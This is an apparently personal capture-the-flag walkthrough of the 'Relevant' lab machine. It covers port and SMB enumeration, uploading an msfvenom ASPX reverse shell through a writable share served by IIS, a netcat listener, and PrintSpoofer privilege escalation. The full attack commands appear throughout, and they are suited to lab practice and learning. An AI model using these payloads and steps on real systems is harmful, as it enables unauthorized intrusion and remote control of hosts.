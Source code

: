 # Relevant

# Recon

nmap -sV IP
80/tcp   open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds  Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp open  ms-wbt-server Microsoft Terminal Services

nmap -sV -p 0-65353 10.10.82.109
gobuster dir -u http://10.10.82.109/ -w common.txt = No results
enum4linux 10.10.82.109


nmap --script smb-os-discovery.nse -p445 10.10.82.109:
```
Host script results:
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-05-27T22:06:35-07:00

nmap --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-services.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse -p445 10.10.82.109    :

Host script results:
| smb-enum-sessions: 
|_  <nobody>
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.82.109\ADMIN$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Remote Admin
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.82.109\C$: 
|     Type: STYPE_DISKTREE_HIDDEN
|     Comment: Default share
|     Anonymous access: <none>
|     Current user access: <none>
|   \\10.10.82.109\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: Remote IPC
|     Anonymous access: <none>
|     Current user access: READ/WRITE
|   \\10.10.82.109\nt4wrksv: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Anonymous access: <none>
|_    Current user access: READ/WRITE

Nmap done: 1 IP address (1 host up) scanned in 78.07 seconds
	
```


smbmap -u nt4wrksv -H 10.10.82.109 -r nt4wrksv (Read the directory)


(Smbmap guide)[https://www.nopsec.com/blog/smbmap-wield-it-like-the-creator/]
smbmap -u nt4wrksv -H 10.10.82.109 -r nt4wrksv -A 'pass'

Bill - REDACTED	
Bob - REDACTED

Bobs & Bill's credentials may be valid but they do not help get into the box.
	

gobuster dir -u http://10.10.82.109/ -w common.txt = No results


After being completely stuck I looked at the offical room walkthrough/the creators youtube video and then realized that there are more than five ports open on the machine...
	
```	
nmap -p- 10.10.87.37 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-28 16:44 EDT
Nmap scan report for 10.10.87.37
Host is up (0.22s latency).
Not shown: 65527 filtered tcp ports (no-response)
PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
```

## Foothold/Exploitation

```
gobuster dir -w common.txt -u http://10.10.223.172:49663/
/aspnet_client        (Status: 301) [Size: 164] [--> http://10.10.223.172:49663/aspnet_client/]
/nt4wrksv             (Status: 301) [Size: 159] [--> http://10.10.223.172:49663/nt4wrksv/]
I modified common.txt from sec lists to include nt4wrksv in the wordlist as the list the author uses is 25,000 lines.
```

Anyway now that we know the nt4wrksv may be linked to the smb directory perhaps we can upload an aspx shell. Asp will not work!
	
```
smbmap -u nt4wrksv -H 10.10.147.160 -r nt4wrksv --upload 'shell.aspx' 'nt4wrksv\shell.aspx'
	
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx > shell.aspx (Returned 503 http service error)
	
smbclient --no-pass //10.10.147.160/nt4wrksv
	
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.13.21.18 LPORT=4445 -f aspx > testing.aspx (Worked)
```


nc -nlvp 4445
http://10.10.20.214:49663/nt4wrksv/testing.aspx
Use the browser to run the reverse shell

## Post Exploitation

* whoami /priv
* (Hacktricks)[https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens]
* The PrintSpoofer exploit in the hacktricks repository did not work. The room creator uploaded the exploit in their repo (PrintSpooler)[https://github.com/dievus/printspoofer/].
	

Extract both of the flags & submit!
	
### Things learned:
* Scan all the ports
* The most obvious route might not work
* smb uploads are possible

